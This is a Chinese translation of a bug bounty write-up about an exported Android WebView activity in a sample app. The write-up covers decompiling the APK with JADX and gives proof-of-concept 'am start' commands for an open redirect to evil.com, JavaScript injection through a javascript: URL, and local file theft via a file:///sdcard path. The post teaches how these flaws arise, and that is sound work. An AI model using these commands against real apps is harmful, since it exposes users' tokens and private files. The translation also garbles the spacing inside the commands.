 # 不要停留在一个错误上

> 原文：<https://infosecwriteups.com/dont-stop-at-one-bug-d3c56806b5?source=collection_archive---------2----------------------->

单个程序中的 3 个严重错误[本地文件窃取、Java Script 注入、打开重定向]

## 首先我要感谢所有支持我的读者:)

大家好，

今天我要谈谈我在一个私人项目上提交的东西，在这个项目上，我提交了三个关键的 bug，它是基于#Android 的。每当谈到 android bug 赏金，我更喜欢从反编译 APK 开始。不过这次我确实用了“[JADx-GUIT5”。](https://github.com/skylot/jadx/releases)

为了更好地理解，我将使用一个示例应用程序。

你只需要打开 JADx-GUI →文件→打开文件→company-app . apk & Open "*androidmanifest . XML*"

![](img/10196ce48746de348c7694fcf2c17abb.png)

现在你需要搜索" *AndroidManifest.xml* "中的***Android:exported = " true "***活动，我找到了一个。

> 点击此链接了解更多关于***Android:exported = " true ":***[https://developer . Android . com/guide/topics/manifest/activity-element](https://developer.android.com/guide/topics/manifest/activity-element)

![](img/76a9e30f7571dddc288b873a3d8af583.png)

> **注意:**“导出”的活动、服务或内容可以被其他应用程序访问。这使得导出的组件易受攻击。；)

问题来了——我们可以如何利用什么样的漏洞？

让我们弄清楚:例如，考虑活动名称为**"*app . company . ui . events . web . webview activity*"**

在 JADx-GUI 中打开此活动→搜索“ *SetJavascriptEnable* ”

> 点击此链接了解关于“***setjavascript enable***”
> [https://developer . Android . com/reference/Android/WebKit/web settings # setjavascript enabled](https://developer.android.com/reference/android/webkit/WebSettings#setJavaScriptEnabled)

![](img/cf33493007ad7ae01144e11fec1d4673.png)

> 您可以看到该活动包含" *SetJavaScriptEnabled* "

现在关注两个方面:

**片段#1**

* * Code:→**"*intent . putextra(" EXTRA _ URL "，str)；"***

在 android 中"***【putExtra】****(String name，str)* "用于将扩展数据添加到 intent 中。它有两个参数，第一个指定了**名称**中的哪一个额外数据，第二个参数是**数据**本身。

**片段#2**

**代码:→ " ***loadUrl(getIntent()。getstring EXTRA(" EXTRA _ URL ")；"***

在这种情况下，***getIntent****()*返回开始这个活动的意图。如果你用一些数据开始一项活动。

> 让我们把它变得非常简单和简短，**"*intent . putextra(" EXTRA _ URL "，str)；"*** 的意思是，你可以把***【EXTRA _ URL】***看成一个变量&***getStringExtra(" EXTRA _ URL "))***这里用来从***【EXTRA _ URL】***变量中获取数据或值。

# **概念验证**

1.  再现 **OpenRedirect** :

*am start-W-n app . company/. ui . events . WEB . webview activity-a*ACTION _ OPEN _ WEB*-e EXTRA _ URL*[*https://evil.com*](https://evil.com)

![](img/230d2982d0955df499c3b281e2fd37a0.png)

2.再现 **Javascript 注入**:

***app . company . ui . events . web . webview activity***不验证传递给 intent 的数据，因此该活动也容易受到 Javascript 注入的攻击。

*am start-n app . company/. ui . events . WEB . webview activity-a ACTION _ OPEN _ we B- e EXTRA _ URL " JavaScript://Google . com % 0A alert(lol)；"*

![](img/6dc727c9d2a53d299211123d13ba0d7f.png)

3.再现**本地文件窃取**:

该错误可能:
→在应用程序沙箱中显示令牌、授权、配置等
→在应用程序沙箱中显示用户数据
→访问“/sdcard”数据，如果允许的话

am start-n*app . company*/. ui . events . WEB . webview activity-a ACTION _ OPEN _ we B- e EXTRA _ URL ' file:///SD card/personal . txt '

![](img/89d5a6c56133ccaa9b2d2479206152a2.png)

这就是我如何在一个私人程序中报告三个关键错误的。嘣！！！$$$$

![](img/32a29bdae97e6723c25dbee0a98e9ddb.png)

我很高兴与你们所有人联系:)我希望你能得到一些动力去做 bug 赏金，并在下一篇文章中再次见到你。

*推特简介:@* [Dheerajmadhukar](https://twitter.com/Dheerajmadhukar)

*Linkedin 个人资料:@*[dheerajtechnolegends](https://www.linkedin.com/in/dheerajtechnolegends/)